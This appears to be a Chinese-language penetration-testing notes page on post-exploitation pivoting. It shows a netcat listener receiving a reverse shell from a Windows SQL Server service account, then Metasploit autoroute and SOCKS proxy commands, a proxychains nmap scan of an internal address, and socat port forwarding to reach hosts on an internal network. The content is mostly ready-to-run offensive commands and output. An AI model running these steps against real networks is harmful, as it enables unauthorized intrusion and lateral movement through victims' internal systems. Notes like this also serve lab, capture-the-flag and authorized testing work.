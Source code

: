 ```
└─$ rlwrap nc -lvvp 2233
listening on [any] 2233 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 56334
Microsoft Windows [Version 10.0.19042.1586]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```



##### Metasploit
```bash
拥有一个reverse_tcp后, 添加内网代理

bg
use post/multi/manage/autoroute   (配置路由)
set session 1
run
use auxiliary/server/socks_proxy
run
sessions -i 1  (回到reverse_tcp session)
arp a
```
修改 proxychains4 配置文件即可执行命令 `proxychains4 nmap -sT -n -p6379 10.0.20.99`

- **可以同时配合蚁剑上线 CS**
代理设置 -> 添加代理 -> 手动设置代理 

代理协议: socks5
代理服务器: KALI IP
端口: 1080
保存


# 端口映射

**socat**
- 内网主机端口映射到可以与外网连接的主机的端口
```bash
socat TCP-LISTEN:8080,fork TCP:<内网IP>:8080 &

kill port  # 杀死 socat
& 挂入后台运行
```

- 如果三台主机：
![](photos/Pasted%20image%2020240323122433.png)
右边内网主机端口5432 映射到暴露在外网上的中间主机的端口2345，这样左边外网主机 kali 可以直接访问中间主机的2345端口，以达到访问右边内网主机的5432端口
```
```